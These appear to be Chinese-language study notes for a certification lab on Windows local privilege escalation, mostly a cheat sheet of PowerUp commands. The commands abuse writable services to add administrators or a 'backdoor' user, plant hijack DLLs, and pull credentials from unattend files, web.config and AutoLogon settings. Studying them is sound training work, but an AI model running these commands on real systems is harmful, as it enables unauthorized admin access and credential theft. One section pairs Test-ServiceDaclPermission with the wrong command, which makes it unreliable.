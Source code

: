 # linux 提权

[Linux PrivEsc Arena](https://github.com/maxzxc0110/hack-study/blob/main/%E6%8F%90%E6%9D%83/Linux%20PrivEsc%20Arena.md)

[Linux PrivEsc](https://github.com/maxzxc0110/hack-study/blob/main/%E6%8F%90%E6%9D%83/Linux%20PrivEsc.md)

# windows 提权

[Windows PrivEsc Arena](https://github.com/maxzxc0110/hack-study/blob/main/%E6%8F%90%E6%9D%83/Windows%20PrivEsc%20Arena.md)

[Windows Privesc](https://github.com/maxzxc0110/hack-study/blob/main/%E6%8F%90%E6%9D%83/Windows%20Privesc.md)

# 思路
CRTP涉及到的本地特权提升方法

1. 缺失补丁
2. 自动部署和明文自动登录密码
3. AlwaysInstallElevated(任何用户都可以作为系统管理员运行 MSI)（ AlwaysInstallElevated (Any user can run MSI as SYSTEM)）
4. 配置错误的服务
5. DLL 劫持
6. etc

总的来说涉及到提权的种类略少于OSCP的要求，可参考[这里](https://github.com/maxzxc0110/hack-study/blob/main/%E6%8F%90%E6%9D%83/Windows%20PrivEsc%20Arena.md)总结的一部分windows本地提权方法

## 需要掌握的三个自动枚举脚本
1.  PowerUp（重点）
2.  BeRoot
3.  Privesc

## 全盘扫描
PowerUp
```
Invoke-AllChecks
```

BeRoot
```
.\beRoot.exe
```

Privesc
```
Invoke-PrivEsc
```


# PowerUp

##  Service Enumeration(服务枚举)
```
Get-ServiceUnquoted             该模块返回包含空格但是没有引号的服务路径的服务
Get-ModifiableServiceFile       该模块返回当前用户可以修改服务的二进制文件或修改其配置文件的服务
Get-ModifiableService           该模块返回当前用户能修改的服务
Get-ServiceDetail               该模块用于返回某服务的信息，用法: Get-ServiceDetail -servicename  服务名
```

## Service Abuse(服务滥用) 
```
Invoke-ServiceAbuse          该模块通过修改服务来添加用户到指定组，并可以通过设置 -cmd 参数触发添加用户的自定义命令
Write-ServiceBinary          该模块通过写入一个修补的C#服务二进制文件，它可以添加本地管理程序或执行自定义命令，Write-ServiceBinary与Install-ServiceBinary不同之处自安于，前者生成可执行文件，后者直接安装服务  
Install-ServiceBinary        该模块通过Write-ServiceBinary写一个C#的服务用来添加用户，
Restore-ServiceBinary        该模块用于恢复服务的可执行文件到原始目录，使用：Restore-ServiceBinary -servicename 服务名
```

根据Get-ModifiableService枚举的结果，使用Invoke-ServiceAbuse，把当前账号添加到本地管理员组
```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student366'
```


## DLL Hijacking(DLL注入) 
```
Find-ProcessDLLHijack       该模块查找当前正在运行的进程潜在的dll劫持机会。
Find-PathDLLHijack          该模块用于检查当前 %path% 的哪些目录是用户可以写入的
Write-HijackDll             该模块可写入可劫持的dll
```
输出一个包含命令的dll文件
```
Write-HijackDll  -Command 'whoami'
```


## Get-ApplicationHost
从系统上的applicationHost.config文件恢复加密过的应用池和虚拟目录的密码。
```
get-ApplicationHost
get-ApplicationHost | Format-Table -Autosize # 列表显示
```

## Get-ModifiableFile
检查某个文件当前用户是否拥有修改权限，并返回有权限的文件路径
```
 '"E:\temp\123123.xlsx" -f "C:\LibAntiPrtSc_ERROR.log"' | Get-ModifiableFile
```


## Get-RegAlwaysInstallElevated
检查AlwaysInstallElevated注册表项是否被设置，如果被设置，意味着的MSI文件是以system权限运行的
```
Get-RegAlwaysInstallElevated
```


## Get-RegAutoLogon
检测Winlogin注册表AutoAdminLogon项有没有被设置，可查询默认的用户名和密码。与msf windows_autologin.rb模块相同。
```
Get-RegAutoLogon
```

## Get-ServiceDetail
返回某服务的信息
```
Get-ServiceDetail -ServiceName Dhcp #获取DHCP服务的详细信息
```

## Get-UnattendedInstallFile
检查几个路径，查找是否存在这些文件，在这些文件里可能包含有部署凭据。这些文件包括
```
c:\sysprep\sysprep.xml
c:\sysprep\sysprep.inf
c:\sysprep.inf
c:\windows\Panther\Unattended.xml
c:\windows\Panther\Unattend\Unattended.xml
c:\windows\Panther\Unattend.xml
c:\windows\Panther\Unattend\Unattend.xml
c:\windows\System32\Sysprep\unattend.xml
c:\windows\System32\Sysprep\Panther\unattend.xml
```

## Get-Webconfig
返回当前服务器上的web.config文件中的数据库连接字符串的明文。
```
get-webconfig 
get-webconfig | Format-Table -Autosize #列表显示
```


## Restore-ServiceBinary
恢复服务的可执行文件到原始目录
```
 Restore-ServiceBinary -ServiceName VulnSVC
```

## Test-ServiceDaclPermission
检查某个用户是否在一个服务有自由访问控制的权限，返回true或false。
```
Restore-ServiceBinary -ServiceName VulnSVC
```


## Write-UserAddMSI
生成一个安装文件，运行这个安装文件，则弹出添加用户的框(用msfvenom生成也可以)
```
Write-UserAddMSI
```

## Write-ServiceBinary
预编译C#服务的可执行文件。默认创建一个默认管理员账号。可通过Command定制自己的命令
```
Write-ServiceBinary -ServiceName VulnSVC # 添加默认账号
Write-ServiceBinary -ServiceName VulnSVC -UserName "TESTLAB\john" # 指定添加域账号
Write-ServiceBinary -ServiceName VulnSVC -UserName backdoor -Password Password123! # 指定添加用户，用户密码以及添加的用户组。
Write-ServiceBinary -ServiceName VulnSVC -Command "net ..." # 自定义执行命令
```


## Install-ServiceBinary
通过Write-ServiceBinary写一个C#的服务用来添加用户
```
Install-ServiceBinary -ServiceName DHCP
Install-ServiceBinary -ServiceName VulnSVC -UserName "TESTLAB\john"
Install-ServiceBinary -ServiceName VulnSVC -UserName backdoor -Password Password123!
Install-ServiceBinary -ServiceName VulnSVC -Command "net ..."
```

## Invoke-Service
```
Invoke-ServiceDisable 禁用服务
Invoke-ServiceEnable 启用服务
Invoke-ServiceStart 启动服务
Invoke-ServiceStop 停止服务
```



